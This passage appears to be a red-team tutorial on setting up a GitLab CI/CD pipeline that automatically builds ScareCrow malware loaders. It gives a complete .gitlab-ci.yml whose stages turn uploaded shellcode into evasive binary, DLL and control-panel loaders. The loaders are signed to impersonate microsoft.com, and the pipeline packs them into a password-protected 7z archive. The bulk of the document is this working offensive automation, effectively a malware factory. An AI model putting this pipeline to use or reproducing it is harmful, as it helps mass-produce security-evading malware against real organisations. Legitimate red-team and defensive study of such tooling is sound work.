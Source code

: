## Your First CI/CD Pipeline

We are now ready to write our first CI/CD pipeline. CI/CD pipelines in Gitlab use a YAML configuration file which is saved in the root directory of a repository and named "**.gitlab-ci.yml**".

The documentation for the grammar used in this YAML file is located here at https://docs.gitlab.com/ee/ci/.

For this first effort, I have created a three stage pipeline that will generate some ScareCrow malware payload artifacts, ZIP them up and make available after the pipeline run completes.

Gitlab will automatically create a standard ZIP file for any artifacts that exist at the end of a pipeline run, however I like to use a 7Zip file within the outer ZIP file so that I can apply a passphrase.

### Pipeline Stages

In a typical CI/CD pipeline we would see stages such as *build*, *test*, and *deploy* for example. For our purposes we have a similar arrangement however we are not really doing any testing in this initial effort.

I am going to name our pipeline stages:
* PreProcess
* BakeMalware
* PostProcess

It is useful to know that Gitlab CI/CD will predefine a number of environment variables which we can leverage within our pipeline YAML file. These environment variables are documented here at https://docs.gitlab.com/ee/ci/variables/predefined_variables.html.

For the purposes of our pipeline, we make use of the **$CI_COMMIT_SHORT_SHA** variable to create a unique directory for each run of the pipeline.

**PreProcess** will be used to prepare the ground.  It might be some directory structure we need to create, or anything else we think we need before creating the malware payload itself.  In our case, we are creating a directory and creating a symbolic link to the **garble** binary so that ScareCrow will not have to download it.

**BakeMalware** will be used to actually execute ScareCrow a number of times in order to create the required binary artifacts we desire.

**PostProcess** will be used for 7ZIP archive creation purposes. The 7ZIP archive will be created in a directory which is then further zipped and made available as an artifact to download when the pipeline completes.

### The Pipeline Trigger

It is typically for a CI/CD pipeline to be triggered whenever a "**git commit**" occurs, however we can exert a little more control over this using a *workflow* statement in our YAML file.

For the purposes of generating malware loaders, we will need to supply some shellcode, thus we create a "**shellcode**" directory and configure the workflow such that any file changes in the "**shellcode**" directory will trigger a pipeline run.

### Full Listing of Gitlab YAML file

Below is a complete listing of the current "**.gitlab-ci.yml**" file. The major sections are:

* stages: listing all of the pipeline stages to be executed in sequence
* workflow: defining the pipeline trigger condition(s)
* PreProcess: execute any/all actions in the PreProcess stage.
* ScareCrow: configured as BakingMalware stage
* PostProcess: zip up files, cleanup and publish artifacts

```
stages:
    - PreProcess
    - BakeMalware
    - PostProcess

workflow:
    rules:
        - changes:
            - shellcode/*

PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - |
            mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            ln -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble

ScareCrow:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.
com

PostProcess:
    stage: PostProcess
    tags:
        - maas
    script:
        - |
            DEST=${CI_PROJECT_DIR}/ScareCrowPayloads
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            cd /payloads
            7z a "${DEST}/${CI_COMMIT_SHORT_SHA}.7z" "${CI_COMMIT_SHORT_SHA}/*" -p"infected"
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}
    artifacts:
        name: ScareCrowPayloads
        paths:
            - ScareCrowPayloads/
        expire_in: 1 day
```

